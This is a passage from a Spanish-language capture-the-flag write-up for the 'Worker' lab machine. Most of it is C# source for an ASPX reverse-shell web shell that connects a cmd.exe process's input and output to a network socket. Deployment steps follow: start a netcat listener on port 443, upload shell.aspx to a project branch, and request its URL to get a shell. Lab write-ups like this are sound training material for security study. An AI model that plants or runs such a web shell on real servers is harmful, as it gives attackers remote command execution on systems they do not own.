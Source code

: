 ```asp

    protected void SpawnProcess(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101;
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
    }

    protected void SpawnProcessAsPriv(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101; 
        IntPtr DupeToken = new IntPtr(0);
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        if (DupeToken == IntPtr.Zero)
            retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        else
            retValue = CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
        CloseHandle(DupeToken);
    }
    </script>
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Subimos el fichero al proyecto a la rama creada

1. Intentamos ir a la url `http://alpha.worker.htb/shell.aspx`
